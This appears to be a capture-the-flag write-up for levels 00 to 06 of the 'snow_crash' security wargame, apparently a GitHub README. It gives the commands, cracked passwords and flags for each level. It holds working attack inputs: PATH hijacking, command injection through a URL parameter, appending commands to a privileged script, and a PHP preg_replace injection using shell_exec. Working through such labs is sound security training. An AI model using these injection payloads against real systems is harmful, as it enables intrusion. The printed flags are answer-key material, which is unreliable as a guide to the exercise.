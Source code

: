 # 42snow_crash
## Level 00

- **Command**: `find / -user flag00 2>/dev/null`
- **File Content**: `cat /usr/sbin/john` yields `cdiiddwpgswtgt`
- **Decryption**: Caesar cipher decryption of `cdiiddwpgswtgt` gives `nottoohardhere`
- **Flag**: `x24ti5gi3x0ol2eh4esiuxias`

## Level 01

- **Encrypted Password**: `42hDRfypTqqnw`
- **Details**: Uses DES for encryption. The password for DES encryption (mode 1500 in hashcat) is `abcdefg`.
- **Flag**: `f2av5il02puano7naaf6adaaf`

## Level 02

- **Task**: Analyze a pcap file in Wireshark.
- **Password Reconstruction**: Password `ft_wandr...NDRel.L0L` with incorrect deletion attempts, corrected to `ft_waNDReL0L`.
- **Flag**: `kooda2puivaav1idi4f57q8iq`

## Level 03

- **Solution**: Create a script named "echo" that executes `getflag`.
  ```sh
  exec getflag
  ```
  Set the PATH to include the script directory.
  ```sh
  export PATH=/tmp:$PATH
  ```
- **Flag**: `qi0maab88jeaj46qoumi7maus`

## Level 04

- **Vulnerability**: Web injection.
- **Solution**: Access `http://192.168.1.31:4747/?x=$(getflag)`.
- **Flag**: `ne2searoevaevoem4ov4ar8ap`

## Level 05

- **Command**: `find / -user flag05 -type f -exec ls -lahh {} \; 2> /dev/null` to find the script
- **Task**: Locate a script executed by `flag05` and append a command to write the flag to `/tmp/out`.
  ```sh
  getflag > /tmp/out
  ```
  Monitor `/tmp/out` for the flag.
- **Flag**: `viuaaale9huek52boumoomioc`

## Level 06

- **Resources**:
  - [Understanding preg_replace filtering exploitation](https://security.stackexchange.com/questions/151142/understanding-preg-replace-filtering-exploitation)
  - [Identify and execute PHP code on a string](https://stackoverflow.com/questions/6103175/identify-and-execute-php-code-on-a-string)
- **Solution**: Use the input `[x {${shell_exec(getflag)}}]` in `/tmp/in`. The `${{}}` syntax allows for expression evaluation.
- **Execution**: `./level06 /tmp/in`
- **Flag**: `wiok45aaoguiboiki2tuin6ub`
